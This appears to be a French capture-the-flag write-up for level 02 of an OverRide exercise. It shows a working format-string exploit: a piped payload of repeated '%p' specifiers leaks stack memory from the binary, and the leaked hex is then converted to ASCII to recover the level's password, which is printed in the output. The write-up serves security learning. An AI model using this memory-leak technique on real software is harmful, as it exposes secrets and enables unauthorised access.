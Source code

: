 # Level 02
<a href="/level03"><img align='right' width=20x height=auto src="https://cdn.onlinewebfonts.com/svg/img_68680.png"></img></a>

- Il y a une faille dans le code une variable qu'on peut controlé est mis  en premier argument dans printf
- On peut donc print la memoire avec %p. C'est se qui permet de printf le plus de memoire.
```
level02@OverRide:~$ (python -c "print('%p ' * 400)" ; echo bite) | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe3d0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```
- Apres ca j'ai créé un script pyhon qui converti la memoire de l'hexadecimal en caractere ascii
```
$ python addr2char.py 
0x7fffffffe3d0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070
-----%****************-------%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
```
- On peut voir que dans le retour une chaine de caractere ressemble a la clé. En la testant c'est bien elle la clé
